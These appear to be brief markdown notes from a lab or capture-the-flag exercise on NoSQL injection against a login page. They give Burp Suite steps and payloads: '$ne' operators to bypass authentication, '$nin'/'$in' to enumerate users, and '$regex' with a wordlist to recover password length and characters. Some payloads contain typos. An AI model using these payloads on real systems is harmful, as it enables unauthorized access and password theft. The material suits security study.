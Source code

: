 ## Login Page:

### 1: Burpsuite

### 2: Random input creds (test,tset)

### 3: user[$ne]=test&pass[$ne]tset

### This forces the database to return all user documents and as a result we are logged in.

## Logging in as other users:

### Use [$nin][] to retrieve a list of values to ignore. Keep using until it throws an error (user enumeration)

### Example:

#### user[$in][]=admin&user[$nin[]=john&pass[$ne]=pass

## Extracting users' passwords

### [$regex]=^.{num}$

#### Then if you found the num,

### pass[$regex]=^........$ then use a wordlist for 1 letter/number/symbol for each row until it guesses it with intruder.
